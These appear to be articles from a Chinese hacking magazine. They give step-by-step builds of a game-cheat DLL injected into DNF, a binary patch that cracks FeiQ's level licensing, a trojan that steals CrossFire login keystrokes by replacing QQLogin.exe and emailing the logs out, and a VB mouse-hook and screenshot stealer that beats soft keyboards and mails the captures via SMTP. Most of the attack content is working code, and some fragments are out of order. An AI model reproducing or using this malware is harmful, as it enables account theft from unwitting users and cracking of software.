DNF的目录里会和别的游戏一样有DLL文件，没错，我们在玩游戏时游戏会加载DLL文件。我们要做外挂，首先要做DLL文件，我们用易语言新建一个Windows动态链接库，如图25。

我们点确定就会看见程序集的编译，源码如下：

```text
版本 2
程序集 程序集1
子程序 __启动子程序，整数型
参数 （DLL，假）
返回（0）
```

```text
子程序 _如果宅_ 整数型 公开
返回（0）
```

```text
内存操作：打开进程（）
监视热键（&自定义功能，#F1键）
子程序：自定义功能
内存操作：写代码（“011E4BD0+5f=100”）
```


大家是不是可以看出点什么了，没错，我们定义F1的功能是SSS，写法是按照内存操作写代码（“评分基址+5f=100”），011E4BD0就是评分基址，5f是评分的偏移，100就是DNF中的连击杀伤率。我们点击编译-静态编译，提示“错误(37): 找不到指定的命令/子程序/Dll命令调用名称‘鼠标显示’”，这是为什么呢？因为我们的操作是DLL文件的内存操作，我们要用到一个模块，超级模块 Super-EC.ec，我用的是超级模块4.6版本的，我们添加这个模块，如图27。


以上的意思是说加载此DLL文件时，打开窗口1。可是窗口1在哪呢？我们不要着急，点击插入-窗口，如图26。

下面我们要知道DNF怎么实现一些功能的，以下的写法是不需要调用更多程序集的：

改技能写法：写内存整数型（取进程ID（“DNF.exe”）+十六到十（“技能基址”），到整数（技能代码））

| 字段 | 值 |
|---|---|
| 程序集名 | 窗口1_创建完毕 |
| 返回值类型 | （空） |
| 公开 | （空） |
| 备注 | （空） |

现在我们再点编译-静态编译，是不是可以生成一个DLL文件了？如图28。

- SSS写法：内存操作.写代码（“评分基址+5f=100”）
- 装备属性写法：内存操作.写代码（“人物基址+1级偏移(装备)+2级偏移(属性)=自定整数”）

是不是大家都看不懂呢？下面我教大家怎么具体实现：

我们双击窗口1，是不是出现窗口程序集1的编译界面了。我们先做3S，源码如下：


我们要让游戏调用它，我们可以去找找以前的杂志，有DLL注入器，这里我做个简单的注入器，如图29。

```text
版本 2
程序集 窗口程序集1
子程序 __窗口1_创建完毕
鼠标显示（）
内存操作：提升权限（）
```


将我们生成的DLL文件注入到DNF的进程里，如图30。


图30

我们在游戏里试试，按一下F1，再按一下攻击键，发现了什么？是不是评分变成SSS了，如图31。


图31

这样我们就做到了3S的实现，如图32。

玩DNF这种游戏，大家都知道攻击力的多少影响到我们刷图的速度，所以修改攻击也是最直接的作弊手段，但要如何实现呢？这里我们用到了加密参数和攻击偏移，写法如下：

```text
加密（内存操作·读代码（人物基址） + 十六到十（攻击偏移），到数值（攻击力数值））
```


图32

我们代换成数值，源码如下：

```text
版本 2
程序集 窗口程序集1
子程序 窗口1_创建完毕
鼠标显示 ()
内存操作_提升权限 ()
内存操作_打开进程 ()
监视热键 (&自定义功能, #F1键)
子程序 自定义功能
加密（内存操作·读代码（"01240E70"） + 十六到十（...））
十六到十（"10F4"），到数值（"99999"）。（10F4是力量）
```

程序集的编译，源码如下：

```text
版本 2
子程序 加密_公开
参数 地址，整数型
参数 数值，整数型
局部变量 address1
局部变量 address2
局部变量 address3
局部变量 data1
局部变量 data2
局部变量 data3

address1 ＝ 内存操作·读整数（内存操作·读整数（十六到十（"01404470"）） + 十六到十（"44"））
address2 ＝ 内存操作·读整数（十六到十（"01404474"））
data1 ＝ 内存操作·读整数（地址）
data1 ＝ 左移（data1，2）
data2 ＝ data1 ＋ address1
data2 ＝ 位异或（data2，address2）
data3 ＝ 位异或（data2，数值）
address3 ＝ data1 ＋ address1
内存操作·写整数（address3，data3）
```

“01404470”是加密参数1，“01404474”是加密参数2。编译出来后，将我们生成的DLL文件注入到DNF的进程里。我们在游戏里试试，按一下F1，看看力量是不是99999，如图33。


图33

# 后记

在黑客界，大家都知道做挂收费很暴利，但黑客界也有一些潜规则，艳照门倒是没有。作为 DNF 的资深玩家，DNF 实在是不能恭维的，“萝卜游侠被抓事件”告诉我们，做外挂所得非法收入是违法的。现在法律法规还不完善，所以，做外挂属于未授权的行为。未授权外挂并不是违法的，授权外挂的前身都是未授权外挂，它们需要在主体软件上作全面的测试，不然很容易出现死机、毁数据或其他有害症状！未授权外挂不可以随意发放给用户，更不能作为商业用品交易，所以法律为了软件用户的数据安全规定：出售未授权外挂是违法的行为！另外，如果未授权外挂被人利用来传播病毒和木马，那对用户来说就是一场灾难！

# 飞秋任意修改等级设置工具编写过程

小楼听雨

飞秋是一款局域网聊天传送文件的绿色软件，不仅完全兼容飞鸽传书通讯协议，同时还具有 QQ 的一些功能，是飞鸽的完美替代者，如图1所示。前段时间在学校实验室的时候，整个局域网内的用户基本都使用该软件，偶然发现有一个人的头像后面竟然有两个小太阳，才知道原来飞秋也是有等级的。继续了解一下，等级可以自己设置，但是设置的时候需要授权码，而授权码需要根据你的机器码由飞秋的作者算出。本人也想体验一把，于是便有了本次 Crack 的过程。最近有网友跟我谈及此工具，遂决定与大家分享一下工具编写的具体过程。由于工具写成已久，很多细节已经遗忘，不对的地方望指正。


## 一、原理分析

由于本人当时的破解知识有限，没有追出授权码的算法，最后发现只需修改两处关键跳转，再稍微修改一配置文件就可以轻松暴力破解掉，于是就没有继续跟踪算法。在破解开始之前，初步猜测程序从开始到等级设置的运行流程图如图2所示。由此可以得出，只要我们找到授权码验证时的关键跳转，就可以实现任意授权码设置等级的终极目标。用 OllyICE 载入飞秋主程序，直接查找字符串后发现关于“授权码”的提示信息，如图3所示。点击“授权码正确！”，进去观察相应代码，发现在地址 00463503 处存在一处跳转，疑似为要寻找的关键跳转，如图4所示。

请阅读往期杂志。


将该处代码进行二进制编辑改为“75 25”，这样跳转指令 je 改成 jnz。重新进行等级设置，输入任意授权码都会提示授权码正确，返回主界面后发现相应的等级也会显示出来。可是后来发现只要退出飞秋，下次运行的时候就无法正常显示等级，还需要重新设置。于是我猜想程序的运行流程应该如图5所示。接下来的任务就是找到读入 FeiqCfg.xml 后第一处验证的关键跳转代码。使用 OllyICE 插件“API 断点设置工具”对 CreateFile、ReadFile 等相关文件操作 API 下断点，对程序跟踪一段时间后，在程序出现界面之前会读入 SerialNO、UserDenji 和 ShowDenji 这些敏感信息，如图6所示。在其不远处的 00408F58 存在一处跳转，二进制编辑把“74 02”改为“75 02”后，验证确实与前面的猜想吻合，这样就实现了完美爆破。因为采用了暴力破解的方法，过程比较简单，我这里的叙述略显粗糙，OllyICE 的详细使用方法请阅读往期杂志。

## 二、程序编写

通过上文的分析，我们现在已经明确本次程序编写需要解决的两个问题：其一是对配置文件 FeiqCfg.xml 内容的增添，另外一个是对飞秋主程序“飞秋FeiQ.exe”的修改。既然目标已经非常明了，下面我们开始编写程序。打开 Visual C++ 6.0，新建一个基于对话框的 MFC 程序，添加相应控件完成程序界面布局，如图7所示。由于 C++ 对 XML 文件的操作不是很方便，于是我们这里采用 CMarkup 外部类。该类功能强大、使用方便，与 C# 中对 XML 文件的操作相比有过之而无不及。添加头文件 `Markup.h` 到工程中并在文件顶部包含进来，程序运行前后 FeiqCfg.xml 的区别如图8所示。相应代码如下：

```cpp
CMarkup xml;
if (xml.Load("C:\\Program Files\\feiq\\FeiqCfg.xml")) {
    if (xml.FindChildElem("SerialNo")) {
        xml.IntoElem();
        xml.SetData("HackerXfiles");
        xml.OutOfElem();
    }

    if (xml.FindChildElem("UserDenji")) {
        xml.IntoElem();
        xml.SetData("9");   // 设置等级为9
        xml.OutOfElem();
    }

    if (xml.FindChildElem("ShowDenji")) {
        xml.IntoElem();
        xml.SetData("1");   // 1为显示等级，0不显示
        xml.OutOfElem();
    }

    xml.Save("C:\\Program Files\\feiq\\FeiqCfg.xml");
}
```

上面代码调用了自定义函数 `FilePatch`，其具体代码为：

```cpp
BOOL FilePatch(DWORD RawOffset, BYTE BytesToWrite[], DWORD nNumberOfBytesToWrite)
{
    DWORD szTemp;
    HANDLE hFile = ::CreateFile(_T("飞秋FeiQ.exe"),
        GENERIC_READ|GENERIC_WRITE,
        FILE_SHARE_READ|FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (GetLastError() == 0x00000002)
        MessageBox(NULL, "请将本程序与飞秋FeiQ.exe置于同一目录下", "提示", MB_OK);

    if (hFile != INVALID_HANDLE_VALUE) {
        SetFilePointer(hFile, RawOffset, NULL, FILE_BEGIN);
        if (WriteFile(hFile, BytesToWrite, nNumberOfBytesToWrite, &szTemp, NULL)) {
            CloseHandle(hFile);
        }
    }

    return TRUE;
}
```

接下来我们对“飞秋 FeiQ.exe”进行修改。通过分析可知，只需要在文件偏移 `0x00008F58` 和 `0x00063503` 两处写入数据 `0x75` 即可，相应代码如下：

```cpp
BYTE Buffer[] = {0x75};               // 要写的内容
DWORD FirstRawOffset  = 0x00008F58;   // 第一处文件偏移
DWORD SecondRawOffset = 0x00063503;   // 第二处文件偏移
DWORD nNumberOfBytesToWrite = sizeof(Buffer)/sizeof(Buffer[0]);

if (FilePatch(FirstRawOffset, Buffer, nNumberOfBytesToWrite)) {
    FilePatch(SecondRawOffset, Buffer, nNumberOfBytesToWrite);
    MessageBox("Patch Done!");
} else {
    MessageBox("Error");
}
```

程序的编写：将写好的程序与飞秋FeiQ.exe放置到同一目录下运行，默认飞秋等级被设置为9，并且现在可以在等级设置处任意设置，如图10所示。原程序在对飞秋FeiQ.exe修改之前还会判断程序是否已经运行，若飞秋FeiQ.exe已经运行，则会先结束进程再修改程序。由于杂志版面有限，就不贴出代码，大家可以在源码中查看。


注意，程序编写部分涉及到的地址为文件偏移，而原理分析部分找到的地址为虚拟内存地址，二者的转换可以自行计算或借助工具。我这里采用一款小工具 OC 计算而得，如图9所示。将相关代码添加到按钮的响应函数中后就完成了。

> （文章中涉及的相关代码本期光盘已收录）

# 木马 Mimi 的密码盗取复现

吴梦龙

## 1. 引子

我在《黑客X档案》2011年4月上刊登一篇文章《QQ账号旁敲侧击》中讲述了一个盗取密码的思路。因为腾讯代理软件多，原软件开发商所作出的登录窗口安全性未必有 QQ 的安全性高，给密码盗取者变相窃取密码的途径。前段时间开发项目曾使用到 SMTP 协议，所以顺便把此前的思路具体实现，这里我以 CF 为具体实现的对象。

## 2. 运行过程

木马的运行分 3 个过程：

- 全盘扫描
- 自我复制
- 记录键盘操作

压缩包文件被解压后自动将所有被解压的文件拷贝到临时目录中，将原来扩展名不是 exe 的木马文件重命名后加上 exe 后缀，然后启动木马程序。以上过程不由木马操作，由解压包自带的另一个 exe 文件或脚本文件操作。为什么需要将所有文件拷贝一个副本再运行？其目的是为后期木马全盘扫描过程能不被干扰地进行而做的准备，全盘扫描的时间大约是 5-8 分钟。试想一下，当你从网络下载一个文件后运行数十秒后没有看到任何效果，你会有什么反应呢？怕是会认为没有运行成功而再次运行一次，若还没有看到运行窗口就得怀疑文件的安全性，立即到任务管理器将其终结掉，尽量检查本机重要信息是否被修改、防火墙是否拦截到什么信息，最后删除可疑文件。由此一来，用户打开任务管理器看不到刚运行文件的进程；不幸的是用户或许会终结掉陌生的进程，只需把木马重命名为 svcohost.exe、winXXX.exe 等名字，轻松打消用户的念头。

全盘扫描的目标是找到 crossfire.exe 文件所在路径，找到后将其路径写入 `D:\Program Files\cell\af.ini` 配置文件中，将游戏路径下原始 QQLogin.exe 文件命名为 `QQLogin .exe`（注意当中有一个空格），木马将其与必需的 dll 文件一同拷贝到游戏路径中，木马重命名为 QQLogin.exe 后退出程序，就此完成木马的首次运行。考虑到腾讯代理的软件不仅仅只是 CF 游戏目录下有 QQLogin.exe 文件，所以使用 crossfire.exe 作为搜索关键字，避免搜索到其他软件。

木马的第二次运行得益于用户的一个操作习惯——快捷方式启动程序。用户双击快捷方式启动程序的时候，其实首先启动的是由木马程序替换掉的程序，由木马程序在 af.ini 文件里查找应用程序路径并启动，这个过程用户是感觉不到的。利用局部消息钩子监控的键盘输入记录在 `C:\cf.log` 文件中，当用户按下回车按键表示用户的输入完毕。从 `G:\config\info.ini`（G 表示游戏路径）文件中读取最后一次登录的用户账号，通过 Email 发送用户名和用户输入记录到指定的电子邮箱后木马退出。

## 3. 实现

整个木马由 4 个文件构成：

- `DirOpt.dll`：处理全盘扫描过程，记录返回搜索结果，其内容在上篇文章讲述。
- `ZLD.dll`：张鲁奇编写的一个 SMTP 模块类，由它负责 Email 发送过程，简化邮件发送。
- `Hlp.dll`（hook login password）：负责监听用户在登录窗口的键盘操作，记录键盘信息到指定文件中。
- `Cfhlp.exe`：木马可执行文件、木马运行实体。

发送 Email 使用的是 SMTP 协议。SMTP 的具体通信协议过程不乏自己编写，`ZLD.dll` 里已经处理好，程序员所需要做的就是填写几个关键信息即可，包括连接的 SMTP 服务器、发送地址、接收地址、用户密码等。图1所示发送者姓名是 `cfpwd`，发送邮件标题是 `2011.9.17 14:33:19`，发送和接收邮箱都是 `cfhxxx@yahoo.com`，邮件内容是 `user: "最后登录的用户" log: "该用户的键盘记录"`。


图1

邮件发送前需要知道邮箱提供商 SMTP 服务器地址，与服务器建立连接和对话。SMTP 服务器信息与发送地址相对应，SMTP 服务器填写格式有个规律：就是发送地址“@”前的内容改成“SMTP”，“@”改成“.”即可。例如发邮箱是 163 的用户 `name@163.com`，那么 SMTP 服务器就是 `SMTP.163.com`，类似的还有 QQ 邮箱、gmail 等。也有些外企邮箱提供商 SMTP 服务器在中国不是按照这个规则命名，例如雅虎邮箱 `name@yahoo.cn` 对应 `SMTP.yahoo.com.cn`，`name@yahoo.com` 对应 `SMTP.yahoo.com`。找到对应的 SMTP 邮箱的方法我用的是笨举：先在 CMD 下用 PING 命令测试 SMTP 服务器看是否存在，如果存在就使用 Outlook Express 建立账户发送一条邮件检测结果。

```cpp
DWORD SendMail(
    CString SmtpAddr,    // smtp服务器地址
    CString Account,     // 账号
    CString Password,    // 密码
    CString Sendfrom,    // 发送源地址
    CString Sendto,      // 目的地址
    CString SenderName,  // 发送者姓名
    CString ReceiverName,// 接收者姓名
    CString Subject,     // 邮件主题
    CString Content      // 邮件正文
)
{
    deque<string> m_dqFiles;
    bool m_isHtml;
    ZSmtp smtp;
    CString strSmtpAddr;
    CString strAccount;
    CString strPassword;
    CString strSendfrom;
    CString strSendto;
    CString strSenderName;
    CString strReceiverName;
    CString strSubject;
    CString strContent;

    strSmtpAddr = SmtpAddr; // smtp.xxx.com
    if(!smtp.Connect((LPSTR)(LPCTSTR)strSmtpAddr,25)){
        // 连接服务器失败
        return ERR_SMTP_CON;
    }

    strAccount = Account;
    strPassword = Password;
    if(!smtp.Validate((LPSTR)(LPCTSTR)strAccount,
                      (LPSTR)(LPCTSTR)strPassword)){
        // 用户名或密码失败
        return ERR_SMTP_AUTH;
    }

    ZString zStr;
    strSendto = Sendto;
    deque<string> strMails = zStr.Splitter((LPSTR)(LPCTSTR)strSendto, ";");

    strSendfrom = Sendfrom;
    strSenderName = SenderName;
    strReceiverName = ReceiverName;
    strSubject = Subject;
    strContent = Content;

    if(!smtp.SendData((LPSTR)(LPCTSTR)strSendfrom,
                      strMails,
                      (LPSTR)(LPCTSTR)strSenderName,
                      (LPSTR)(LPCTSTR)strReceiverName,
                      (LPSTR)(LPCTSTR)strSubject,
                      (LPSTR)(LPCTSTR)strContent,
                      m_dqFiles,
                      m_isHtml)){
        return ERR_SMTP_SEND;
    }
    return ERR_SMTP_SUCCESS;
}
```

实际应用中，根据不同的登录框编写相应处理方式。由于虚拟键码和 ASCII 码表并不一一对应，所以需要对虚拟键码和 ASCII 码建立映射管理。依据按键布局位置，建立了 4 个数组表示映射关系。几乎每个按键都可以表示 2 个符号，因此还要检查 Shift 键是否按下和 Caps Lock 键是否处于锁定状态。

```c
/* Translate vk code to ascii */
char sign_0_9[] = { /* 主键盘上的 0-9 按键及符号 */ };
char sign_skb[] = { /* 数字小键盘 */ };
char sign_ot1[][7] = { /* 其他符号1 */ };
char sign_ot2[][4] = { /* 其他符号2 */ };
```

```c
bool kshift, kcap, cap;
char key;
kcap   = (GetKeyState(VK_CAPITAL) & 1);
kshift = (GetKeyState(VK_SHIFT) & 0x80 & 1);
cap    = kcap ^ kshift; // cap = 1: capitalization
```

Shift 键按下与 Caps Lock 键锁定状态进行异或运算，非 0 表示输入英文字母大写。Shift 键按下还表示输入具有双符号按键上面的符号，在映射数组里用第 2 维表示。

Cfhlp.exe 程序创建互斥体，保证同一时间只有一个木马进程运行；从 `D:\Program Files\cell\af.ini` 文件中读取游戏安装目录并启动游戏登录窗口；记录游戏登录窗口输入，并定时扫描窗口是否关闭，窗口关闭后木马进程退出。用户输入完成后由 hld.dll 模块通知，并将信息发送到指定邮箱。

`af.ini` 文件内容如下：

```ini
[FilePath]
cf=d:\game\CrossFire
[System]
copy=0
dll=1
```

## 4. 结束

作为木马来说隐藏进程是必须的，然而此木马运行实体本身是 `*.exe` 文件，可被任务管理器结束。常见隐藏方式是制作为 dll 并远程注入其他进程，以线程形式运行。

文中说明使用电子邮件进行信息反馈的便利与稳定性：SMTP 服务成熟、协议可靠、实现简单，能够满足基本信息回传需求；但在无法操作数据库时需管理大量邮件，使用 Outlook Express 或网页方式都较繁琐。

也有木马使用 FTP 服务器作为反馈容器，但免费 FTP 常不稳定且易关闭；自建 C/S 结构则需要固定 IP 主机并自行维护传输协议，开发维护成本更高。

最后声明：本文仅供编程及计算机爱好者阅读，请勿对号入座，作者不对他人阅读本文引发的法律问题负责。

## 用VB攻破软键盘的防护

> 随风而逝

提到键盘记录，键盘钩子或许大家都不陌生。各种盗号程序、木马之类的都用到了键盘记录。随着安全技术的发展，软键盘也在被广泛使用，小到网页，大到游戏，或许都能见到软键盘的身影。你问我什么是软键盘？——软键盘就是屏幕键盘，用鼠标点的。如果是远控木马或许还好点，能用屏幕查看功能看到你点了一些什么字母，但是单纯的自动盗号木马对此可能就无能为力了。或许有人会说有抓包的盗号木马，照样能获取到你的信息数据。关于抓包木马，至于你有没有见过，反正我是没看到过的。所以，今天说的就是对付软键盘输入，工具还是VB。

# 一、思路分析

还是老规矩，写程序前先做好分析，想清楚程序流程，然后再编译成代码就可以了。既然是针对屏幕输入，那肯定是用鼠标点的，至少我没见过语音输入密码的。既然会有鼠标点击，那自然就会有鼠标点击事件。我们只要当事件触发后截取图片和截取鼠标点击坐标就可以了，然后把数据发送，基本流程就是这样了。

关于为什么要获取图片，因为有的游戏是全屏幕，有的可以切换成窗口，有的网页的软键盘是可以拖动的，更变态点的软键盘是点一下就变一次键盘布局的，貌似建行网银就是这样。所以抓取图片就显得意义重大了，总而言之就是方便核对到底你点了哪些地方。

# 二、程序编译

首先绘制窗体，如图1。这里我们需要7个文本框、1个图片框、3个计时器控件，作用后面会提到。至于怎么放无所谓，反正窗体是隐藏运行的。现在解释一下各个控件的作用：


- text1 —— 实时获取鼠标坐标
- text2 —— 保存鼠标点击了的坐标数据
- text3 —— 获取屏幕分辨率
- text4 —— 计算图片保存到多少张
- text5 —— 判断是否找到目标窗体，并且目标窗体消失，然后发信
- text6 —— 压缩包保存路径
- text7 —— 需要压缩的文件路径
- Picture1 —— 抓取图片
- timer1 —— 检测鼠标点击事件，满足要求后保存点击坐标
- timer2 —— 抓取图片，保存到指定位置
- timer3 —— 压缩文件，调用发信模块发信，退出木马

窗体1代码如下：[为节省篇幅，获取图片的部分在此省略，上期文章有，代码里也有注释，请各位读者谅解]

```vb
--------窗体加载代码--------
Private Sub Form_Load()
On Error Resume Next '容错，防止程序出错挂掉
Form1.Hide '木马自然是隐藏运行
hHook = SetWindowsHookEx(WH_MOUSE_LL, AddressOf MouseHookProc, App.hInstance, 0) '创建鼠标钩子
Timer1.Interval = 100 '设置计时器1的触发间隔是100毫秒
Dim reswidth As String '数据定义
Dim resheight As String
Dim ScreenRes As String
reswidth = Screen.Width \ Screen.TwipsPerPixelX '得到分辨率
resheight = Screen.Height \ Screen.TwipsPerPixelY
ScreenRes = reswidth & "x" & resheight
Text3.Text = ScreenRes  '将分辨率数据传输到文本框3中
MkDir "c:\picture"    '创建名为picture的文件夹，用来保存点击抓取的图片
End Sub
```

## 窗体卸载代码

```vb
Private Sub Form_Unload(Cancel As Integer)
    UnhookWindowsHookEx hHook   '卸载掉键盘钩子
End Sub
```

### 计时器1代码

```vb
Private Sub Timer1_Timer()
If GetAsyncKeyState(vbLeftButton) < 0 Then   '当按下鼠标左键
    Text2.Text = Text2.Text & vbCrLf & "鼠标左键------" & Text1.Text   '保存点击坐标，text1为实时坐标
    Text4.Text = Val(Text4.Text) + 1   'text4计数，图片保存到多少张，用于图片命名
    Timer2.Enabled = True   '打开计时器2
ElseIf GetAsyncKeyState(vbRightButton) < 0 Then   '按下鼠标右键
    Text2.Text = Text2.Text & vbCrLf & "鼠标右键------" & Text1.Text   '只记录不抓图，需要抓图时在这里开启timer2即可
End If
End Sub
```

### 计时器2代码

```vb
Private Sub Timer2_Timer()
''''''''''''''''''''''''''抓图
Dim rFN As String
Dim ret As Boolean
rFN = Text4.Text   '文件名，这里是读取文本框4记录到第多少号了
Me.AutoRedraw = True
Picture1.Width = Screen.Width + 30
Picture1.Height = Screen.Height + 30
BitBlt Picture1.hDC, 0, 0, Screen.Width + 30, Screen.Height + 30, GetDC(0), 0, 0, vbSrcCopy
Set Picture1.Picture = Picture1.Image
ret = PictureBoxSaveJPG(Picture1.Picture, Replace("c:\picture" & "\" & rFN & ".JPG", "\", "\\"))   '保存压缩后的图片到C盘picture文件夹内
Timer2.Enabled = False
''''''''''''''''''''''''''抓图结束
End Sub
```

### 计时器3代码

```vb
Private Sub Timer3_Timer()
On Error Resume Next
Dim i As Long
Dim a As String
Dim hwnd As Long
hwnd = FindWindow(vbNullString, "QQ用户登录")   '查找需要截获的窗体
If (hwnd = 0) Then   '如果没有找到窗体
    If Text5.Text = "find" Then   '并且如果文本框内容为find，那么处理以下事件
        Dim cc As String
        cc = CreateObject("WScript.Shell").RegRead("HKLM\Software\Microsoft\Windows\CurrentVersion\App Paths\WinRAR.exe\path")   '获取winrar路径，调用命令进行压缩
        Shell cc & "\rar.exe a " & Text6 & " " & Text7   '对指定文件压缩到指定路径
        Timer1.Enabled = False   '关闭所有计时器
        Timer2.Enabled = False
        Timer3.Enabled = False
        sendmail   '开始发信
    End If
Else
    Text5.Text = "find" '否则表示找到窗体
    Timer1.Enabled = True '开始记录鼠标点击和图片
End If
End Sub
```

```vb
Debug.Print "当前鼠标位置-x:" & oMouseHookStruct.pt.x & ", y:" & oMouseHookStruct.pt.y
Form1.Text1.Text = "X轴" & oMouseHookStruct.pt.x & "----------" & "Y轴" & oMouseHookStruct.pt.y
MouseHookProc = CallNextHookEx(hHook, idHook, wParam, ByVal lParam)
End Function
```

窗体里面的代码就是这些，在此额外说明一下，计时器3的思路可能有人看不懂，我解释一下。假设我们的截获目标是QQ2008，如图2。首先电脑运行后是不会自动出现这个窗体的（你设置开机自动运行我就不说什么了），这个时候计时器找不到窗体，那么不触发任何事件，等待下次寻找；如果说找到标题为“QQ用户登录”的窗体，那么文本框5的内容更新为find，这个时候计时器1就开始工作了，开始截取点击事件。截取的同时计时器3依然会继续寻找、记住。这个时候文本框5的内容是find，如果用户登录按下登录之后，窗体会发生跳转（游戏的话也是这样，如果有的游戏不跳转窗体，那么则设置回车键触发下一步事件），“QQ用户登录”的窗体消失。这个时候计时器3中，满足没有找到窗体，进行2次判断，满足文本框5内容是find，然后表示用户已经登录了，登录框消失了。我们信息已经搜集完成，这个时候就可以压缩文件发送了。

至于为什么用压缩文件的方式，因为我们无法知道到底有多少次点击事件，抓了多少图，所以只能是把整个文件夹压缩发送了。这里有个局限，要是对方没安装WinRAR那程序就没用了，不过大多数人都是用的RAR压缩吧？

上面代码可以看到我们是把数据传输到窗体1的文本框1中了，再次建立一个模块，模块2，作用是发信，代码如下：

```vb
Public Declare Function GetTickCount Lib "kernel32" () As Long

Public Sub delay(dTime As Double) '以秒为单位，延时10秒只需要将dTime设置为10即可
Dim dStart As Double
dStart = GetTickCount \ 1000
Do While dStart > GetTickCount \ 1000 - dTime
    DoEvents
Loop
End Sub

Sub sendmail()
On Error Resume Next
Dim a As String
Dim i As Long
namespace = "http://schemas.microsoft.com/cdo/configuration/"
Set Email = CreateObject("CDO.message")
Email.From = "648110318@qq.com"
Email.To = "53877910@qq.com"
Email.subject = "------秒杀提示------"
a = "c:\picture.rar"
Email.textbody = "当前分辨率为----" & Form1.Text3.Text & vbCrLf & "---记录信息如下---" & vbCrLf & Form1.Text2.Text
Email.addattachment a '添加附件A
delay 60 '延迟1分钟 用来上传附件
```


图2

然后我们新建模块1，这个模块的作用是获取鼠标实时坐标，声明部分没太多意义，就不细说了，给出主要代码：

```vb
Public Function MouseHookProc(ByVal idHook As Long, ByVal wParam As Long, ByVal lParam As Long) As Long
CopyMemory oMouseHookStruct, ByVal lParam, Len(oMouseHookStruct)
```

```vb
With Email.configuration.fields
    Item(namespace & "sendusing") = 2
    Item(namespace & "smtpserver") = "smtp.qq.com"
    Item(namespace & "smtpserverport") = 25
    Item(namespace & "smtpauthenticate") = 1
    Item(namespace & "sendusername") = "xxxxx"  '发件人用户名
    Item(namespace & "sendpassword") = "xxxxx"  '发件人密码
    .Update
End With
Email.send
Set Email = Nothing   '发信成功处理事件

Kill "c:\picture\*.jpg"
RmDir "c:\picture"
Kill "c:\picture.rar"

Unload Form1
End Sub
```

这部分代码比上个月的代码多了一部分，就是顶上的延迟部分。测试时发现压缩包上传会出现漏传问题，最终通过延迟处理解决。发件后删除相关数据即可。因为使用命令方式操作，`RmDir` 只能删除空文件夹，所以需要先 `Kill` 删除 `c:\picture` 里的图片文件，再删除压缩包与目录。

（右栏上部正文）说明了测试过程中窗口定位、目标窗体识别、以及在抓取网页软键盘时可通过对比网页源码变化来判断是否跳转。收到邮件后，可下载图片、调整分辨率，并根据目标屏幕分辨率定位鼠标坐标，实现软键盘输入内容还原。


图3

（右栏中部正文）写作目的在于探讨绕过软键盘阻拦的技术思路，并强调技术研究边界与合法性，提醒不要用于非法入侵。文末提及相关代码已收录于光盘。


图4

## BHO网页监控技术

X档案准备开发系统，近期研究了BHO技术，本文采用VC++介绍一个BHO网址监控插件的实现。该插件适用于IE浏览器，其他浏览器需对应开发包支持。

小知识：BHO（Browser Helper Object，浏览器辅助对象，简称BHO）。BHO是微软推出的作为浏览器对第三方程序员开放交互接口的业界标准，通过简单的代码就可以进入浏览器领域的“交互接口”（Interactive Interface）。通过这个接口，程序员可以编写代码获取浏览器的行为，比如“后退”“前进”“当前页面”等；利用BHO的交互特性，程序员还可以用代码控制浏览器行为，比如修改替换浏览器工具栏、添加自己的程序按钮等。

在正式编写代码之前，我们需要了解一些东西，首先是IE浏览器加载BHO插件的原理。

- IE的窗口打开时，先寻找 HKLM 下的 `SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects` 里的 CLSID，并在 HKCR 下的 CLSID 里找到插件信息（包括文件位置等）。
- IE根据找到的CLSID信息创建BHO对象，并查找 `IObjectWithSite` 接口（接口中主要是 `SetSite` 和 `GetSite`）。
- IE把 `IWebBrowser2` 传到BHO的 `SetSite` 方法，用户可在此方法中挂载自己的事件处理方法。
- 窗口关闭时，IE把 `null` 传到BHO的 `SetSite` 方法，用于卸载挂载的事件处理方法。


了解了IE浏览器加载BHO的方法之后，我们就来看一下BHO插件的编写流程。

- 创建 `IObjectWithSite` 显式接口，创建COM类型，实现继承 `IObjectWithSite` 接口。
- 实现此接口并在 `SetSite` 方法里加上所要挂载的事件。
- 处理事件。
- 注册此BHO到注册表中 `HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects`（`HKCR` 下的 `CLSID` 根据上面的路径自动注册）。
- .NET下须设置此BHO项目的“配置属性->生成”中为interop注册为True，这样才能将.NET类库文件注册到COM。

我们采用VC6.0创建好环境之后，就要进行代码的编写了。由于我们在IE浏览器中加载插件，所以其他浏览器不允许DLL加载。这样我们就需要在dllMain函数中对加载该DLL的程序进行判断，代码如下：

```cpp
if (dwReason == DLL_PROCESS_ATTACH)
{
    // 只允许 iexplorer.exe 加载这个DLL
    TCHAR Loader[MAX_PATH];
    GetModuleFileName(NULL, Loader, MAX_PATH);

    for (int i = lstrlen(Loader); i > 0; i--)
    {
        if (Loader[i] == _T('\\'))
        {
            lstrcpy(Loader, Loader + i + 1);
            break;
        }
    }

    if (lstrcmpi(_tcslwr(Loader), _T("iexplore.exe")) != 0 &&
        lstrcmpi(_tcslwr(Loader), _T("regsvr32.exe")) != 0)
        return FALSE;

    _Module.Init(ObjectMap, hInstance);
    DisableThreadLibraryCalls(hInstance);
}
else if (dwReason == DLL_PROCESS_DETACH)
    _Module.Term();
```

这段代码我们添加在dllMain函数的开始位置，这样就能确保只有iexplore.exe才能加载我们的插件。BHO对象与浏览器进行交互是通过事件实现的，那么它们之间的交互有几种事件呢？下面就列举一下常用到的事件：

- `DISPID_BEFORENAVIGATE2`：该事件在浏览器准备下载网页之前触发，这样这个事件就可以用在我们检测用户输入的网址地址上。
- `DISPID_DOWNLOADBEGIN`：该事件在浏览器开始下载网页时触发。
- `DISPID_NAVIGATECOMPLETE`：该事件是在一个……链接（网页窗口或者网页 Frame 框架窗口）被完全打开后，IE 浏览器或 WebBrowser 控件触发的事件。这个事件已经废弃。应该使用 `DISPID_NAVIGATECOMPLETE2`。

- `DISPID_DOWNLOADCOMPLETE`：该事件在网页完全被浏览器下载完毕之后触发。
- `DISPID_DOCUMENTCOMPLETE`：页面加载完毕时触发该事件，当每个 FRAME 加载完毕后都会触发 `DISPID_DOCUMENTCOMPLETE`。可以在 `DISPID_DOCUMENTCOMPLETE` 中，判断是否是整个页面加载完毕。
- `DISPID_NEWWINDOW2`：该事件在有新的窗口打开时触发，例如弹窗网页。

